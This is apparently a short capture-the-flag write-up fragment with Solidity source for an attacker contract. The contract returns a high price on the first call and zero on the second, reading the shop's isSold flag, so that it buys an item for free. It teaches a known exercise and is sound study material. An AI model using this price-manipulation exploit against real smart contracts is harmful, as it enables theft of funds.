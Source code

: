 ```javascript
pragma solidity ^0.6.0;

abstract contract Shop {
    int public price = 100;
    bool public isSold;
    function buy() public virtual;
}

contract Buyer {
  	function price() external view returns (uint) {
	    bool is_sold = Shop(msg.sender).isSold(); 
	    if (is_sold) {
	    	return 0;
	    } else {
	    	return 100;
	    }
  	}

  	function attack(address addr) public {
    	Shop(addr).buy();
  	}
}
```

Using the `isSold` variable, we can determine if it is the first call to `price` or the second call to `price`, and adjust the returned price accordingly.
